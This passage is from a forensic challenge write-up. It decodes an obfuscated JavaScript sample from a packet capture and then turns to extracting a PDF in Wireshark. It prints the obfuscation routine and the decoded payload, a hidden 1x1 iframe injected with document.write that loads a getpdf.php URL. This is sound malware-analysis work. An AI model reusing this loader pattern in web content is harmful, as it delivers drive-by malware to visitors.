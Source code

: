 ```
var DayahDet = 'zafezed lacet cetexet jevecakemahamaha febenep cafa fezebefe yelaxa xejarer hejefaqazedeka kebeneh petaqe zevexej jenewabahegehar jabevame bayap def vasefezetevamer nefelaba sezaxewe qajeqeme wet reyeqer magemefele xelawece denew jafelev haweqa kel vatabaser mag vejefama xeca canapevezejev benaper gezazevaja zeyaxaf wehekeh jecalava set senajaj re kameken bazafakaqewate zaralek yecele kak s hexebeka heha jeyeteg sase wayefewa tey gawewem wefaravavepayeke xedevec gavayedegeqer casehes watenanesajet jelagal payevexebe pejasep heqefagabexemew deheler vejegeca hece rafenadamenaxe jaz fex hekases pazetepajamelew cerasej nevayezabevepeke pex gey dac g dezaleza kekeqebe peyemaf sevanededa cefagey defef cexaqehe sebex galahal zadaxaran lava falamedejegase set law mefe wa mex ces nam j xaxaped gexeqageb feqeled daseze tehadeh zeheteyera xanahef wepahena xarakel gadazecaq tabexape dareq seje lejegagaxavade haf jaz cewe me cag kem fed h legefaz taw keyacah wefereweverewaze rapecame kas fagavev facez yefeley lareke seperene gav lece gahepegesafeve dez gen yeje s waz qas xap c hademax mezezah qepawehe vad zejates pe cehajeg sabebaseqeseda sekesav nebeda cagareg kec fexewel bejewagedegeqene bajesade lav pasepad baraj xecavan vedepe veranake vej heva kejajemacajada wez saj vele x qaj vad fag y qetamefe jaxa kamatare net zeheweh jeme bale cexebedeleneye dab vev kekaxex jetecajek lejekabe qalef bevegeye caxeb beleteqe r hele saxafexazat baz dehakajegeqeneke met mefepexafecebera qwertyu iop asdfghj klzxcvbnmqwer tyuiopa sdfghjklzxcvbnmq hjklzxc vbnmqwer tyu iopasdfghjklzxc vbnmqwe rtyuiopas dfghjkl zxcvbnmqwertyuio pasdfgh jklzxcvbnmqwert yuiopas dfghjk lzxcvbnm qwertyuiop asdfghj klzxcvbnmqwerty uiopasd fghjkl zxcvbnmq werty uio pasdfghjklzxcvb nmqwert yuiopasdfghjklzx cvbnmqwe rty uiopasd fghjklzx uio pasdfghjklzxcvb nmqwert uiopasdfghjklz qwertyui opasdfghjk xcr vbnmqwertyuiopar sdfghjr klzxcvr bnmqwer rtyuiopasdfghjkr lzxcvbnr mqr wertyur iopasr dfghjkr lzxcvbnmqwertyr uiopasdr fghr jklzxcr vbnmqwertr yuiopar sdfr ghjklr zxcvbnmqwertyuir opasdfr ghjr klzxcvr bnmqwertr yuiopar sr dfghjkr lzxcvbnmqwerr dfghjkr lzxcvbnmqwerr tyuiopr asdfgr hjklzxr cvbnmqwertyuior pasdfgr hjklzxcr vbnmqwr ertyur met mefepexafecebera xanahef wepahena feqeled daseze tabexape dareq zexelede l cefagey defef hademax mezezah req batekeqaheteceh zateyene c zekeqay ratevecek veheleqe k dec tec xece jefexazeqayefes cama bapevexeladet keh lanawebasegecaja qefejev qepetekene dacegas relevaj fecasece ber veyayes ba kajebed savaketegemeqe wepecer lamege tere ratavacevejezax gey dasalaje gav yepakekehe'.split(' ');
var url = '';
var fromCharCode = 'ftr9wogmBwJCW5h6aixrPRCs1ZonjHjdjKueMkD'.replace(/[t9wgBwJW56ixPRs1ZnjHjjKuMkD]/g, '');
fromCharCode = String[fromCharCode];
for (i = 0; i < DayahDet.length - 1; i += 2) url += fromCharCode(parseInt((DayahDet[i + 0].length - 1).toString(16) + (DayahDet[i + 1].length - 1).toString(16), 16));
console.log(url)
```

In the end of the script was `eval(url)` but I replaced it with `console.log(url)` to see exactly result from this loop. I run this script in online compiler - [OneCompiler](https://onecompiler.com/javascript) and it printed:

`document.write('<iframe scrolling="no" width="1" height="1" border="0" frameborder="0"@src="http://blog.honeynet.org.my/forensic_challenge/getpdf.php"></iframe>')`

The hidden URL was `http://blog.honeynet.org.my/forensic_challenge/getpdf.php`

## What is the MD5 hash of the PDF file contained in the packet?
In Wireshark I can export found objects. I used `File->Export Objects->HTTP`. 

![4.png](./images/4.png)
